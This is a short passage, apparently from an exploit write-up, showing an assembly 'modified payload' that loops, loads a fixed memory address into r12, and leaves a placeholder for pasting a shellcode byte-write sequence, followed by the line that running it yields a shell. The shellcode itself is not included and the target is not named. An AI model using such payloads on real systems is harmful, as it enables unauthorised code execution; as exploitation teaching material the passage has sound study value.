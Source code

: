 Now the modified payload looks like:
```py
# This is our target basic block
# It gets executed once at start
cool:
movq rsi, 0xfaceb00b
jmp start2

start2:

# decreased the number of loop iterations here because we don't need to wait for GDB
mov rdi, 1000
loop:
decq rdi
jne loop

movabs r12, 0x0000001002d9d2f0

## PASTE SHELLCODE MOV SEQUENCE HERE ##
## e.g.
## mov byte ptr [r12+0], 0x48
## mov byte ptr [r12+1], 0xbf
## etc...

jmp cool

ret
```

Run it again and you'll get a shell!